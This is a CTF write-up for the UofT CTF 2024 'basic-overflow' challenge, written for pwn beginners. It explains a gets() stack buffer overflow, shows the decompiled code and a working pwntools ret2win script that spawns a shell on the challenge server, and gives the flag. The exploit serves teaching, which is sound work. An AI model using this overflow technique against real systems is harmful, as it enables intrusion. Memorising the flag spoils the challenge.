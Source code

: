 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 100
solves: 316
tags: pwn ret2win buffer-overflow
date: 2024-1-15
comments: false
---
```


This challenge is simple.  

It just gets input, stores it to a buffer.  

It calls gets to read input, stores the read bytes to a buffer, then exits.  

What is gets, you ask? Well, it's time you read the manual, no?  

`man 3 gets`  

Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.  

Author: drec  
`nc 34.123.15.202 5000`  
[basic-overflow](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/basic-overflow)  

---

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

All this does is pop a shell.  

So, this is a standard ret2win challenge where we must override the return address with the address of the win function to get a shell. We can easily do this with pwntools:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./basic-overflow")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./basic-overflow')
# gdb.attach(p)

p = remote('34.123.15.202', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{reading_manuals_is_very_fun}